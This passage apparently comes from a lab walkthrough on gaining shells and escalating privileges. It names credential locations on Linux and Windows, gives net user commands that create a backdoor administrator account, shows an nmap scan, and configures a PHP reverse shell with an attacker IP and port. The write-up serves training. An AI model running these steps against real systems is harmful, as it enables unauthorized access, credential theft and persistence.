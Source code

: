 Use these links as references.
- [Dirty COW (CVE-2016-5195) Privilege Escalation](https://dirtycow.ninja/){:target="_blank"}


On linux ideally there would be opportunities to gain access to a user account. SSH keys stored at `/home/<user>/.ssh` are often an ideal way to do this.

On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml` or `C:\xampp\FileZilla Server\FileZilla Server.xml`. We would obtain a shell running as the `SYSTEM` user, or an `administrator` account running with high privileges. In such a situation it's possible to simply add own account (in the administrators group) to the machine, then log in over `RDP`, `telnet`, `winexe`, `psexec`, `WinRM` or any number of other methods, dependent on the services running on the box.

Once shell is obtained, the following sample commands can be used to add user with privileges.
{% capture code %}{% raw %}net user <username> <password> /add
net localgroup administrators <username> /add{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 13 - Practice and Examples

### Enumeration - Linux

Check the services running in the target.
{% capture code %}{% raw %}nmap -Pn -T4 -sS -F <ip>{% endraw %}{% endcapture %} {% include code.html code=code %}

An output similar to below will be obtained.
{% capture code %}{% raw %}Starting Nmap 7.60 ( https://nmap.org ) at 2021-04-13 04:44 BST
Nmap scan report for <hostname> (<ip>)
Host is up (0.0010s latency).
Not shown: 98 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:34:D3:9D:EB:4B (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.57 seconds{% endraw %}{% endcapture %} {% include code.html code=code %}


### Web shell upload - Linux

Copy the webshell available in `/usr/share/webshells/php/php-reverse-shell.php` and edit the file to modify `ip` and `port` of attacking machine.
{% capture code %}{% raw %}$ip = '<local-ip>';
$port = 443;{% endraw %}{% endcapture %} {% include code.html code=code %}

Use `stty -a` to get the current terminal settings.
{% capture code %}{% raw %}speed 38400 baud; rows 34; columns 169; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W;
lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk brkint ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany imaxbel -iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc{% endraw %}{% endcapture %} {%include code.html code=code %}
